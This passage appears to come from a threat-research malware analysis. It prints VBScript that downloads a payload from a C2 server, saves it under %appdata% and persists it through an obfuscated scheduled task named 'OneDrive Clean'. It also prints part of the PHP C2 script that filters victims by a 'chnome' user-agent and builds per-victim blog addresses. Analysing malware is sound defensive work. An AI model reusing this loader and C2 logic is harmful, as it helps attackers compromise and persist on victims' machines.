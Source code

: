 cmd1 = "w" + "sc" + "ript.e" + "xe //" + "e:v" + "bsc" + "ript //b """"" + ini_file + """"""
cmd2 = "scht" + "asks /cr" + "eate /s" + "c mi" + "nute /mo 30 /tn ""OneDrive Clean"" /tr """ + cmd1 + """"
shell_obj.run cmd2 ,0,False




1234567891011121314151617

Set shell_obj = CreateObject("WScript.Shell")ini_file = shell_obj.expandenvironmentstrings("%appdata%") & "\defs.ini"drl = server_url + "/s.php"Set WinHttpReq= CreateObject("MSXML2.ServerXMLHTTP.6.0")WinHttpReq.Open "GET", drl,FalseWinHttpReq.setRequestHeader "User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chnome/97.0.4692.99 Safari/537.36"WinHttpReq.sendIf WinHttpReq.Status=200 ThenSet oFile = CreateObject("Scripting.FileSystemObject")Set ofp = oFile.CreateTextFile(ini_file, 2)ofp.Write kjhskfjaskdjf(res)ofp.CloseEnd If cmd1 = "w" + "sc" + "ript.e" + "xe //" + "e:v" + "bsc" + "ript //b """"" + ini_file + """"""cmd2 = "scht" + "asks /cr" + "eate /s" + "c mi" + "nute /mo 30 /tn ""OneDrive Clean"" /tr """ + cmd1 + """"shell_obj.run cmd2 ,0,False




During our research, we discovered a corresponding C2 script (s.php) for delivering a payload for auto-execution. The primary objectives of the delivered VBS payload are connecting to the legitimate blog, parsing the post and finally acquiring the next stage payload. Interestingly, this C2 script generates a blog address based on the victim’s IP address. After calculating the MD5 hash of the victim’s IP address, it cuts off the last 20 characters, and turns it into a blog address. The author’s intent here is to operate a dedicated fake blog for each victim, thereby decreasing exposure of their malware and infrastructure. Additionally, the script checks whether the user-agent has an uncommon string, chnome. As we mentioned earlier, the Visual Basic Script connects to this C2 script using a hard-coded chnome User-agent name and the script checks the misspelled user-agent to verify it’s an expected request from a real victim.





$filename = hash("md5" , $ip);
$filename = str_replace("+" , "" , $filename);
$filename = str_replace("=" , "" , $filename);
$filename = str_replace("/" , "" , $filename);
$filename = right($filename , 20);
$logfile = $filename.".txt";
$errorfile = "error.txt";
if(stristr($_SERVER['HTTP_USER_AGENT'] , "chnome"))
{

   $url = base64_encode("https://" . $filename . ".blogspot.com/2022/04/1.html");
   $spy_script = 'Function hhgtttgffgg(ByVal base64String)
   On Error Resume Next
   Const Base64 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
   Dim dataLength, sOut, groupBegin




123456789101112131415

$filename = hash("md5" , $ip);$filename = str_replace("+" , "" , $filename);$filename = str_replace("=" , "" , $filename);$filename = str_replace("/" , "" , $filename);$filename = right($filename , 20);$logfile = $filename.".txt";$errorfile = "error.txt";if(stristr($_SERVER['HTTP_USER_AGENT'] , "chnome")){    $url = base64_encode("https://" . $filename . ".blogspot.com/2022/04/1.html");   $spy_script = 'Function hhgtttgffgg(ByVal base64String)   On Error Resume Next   Const Base64 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"   Dim dataLength, sOut, groupBegin
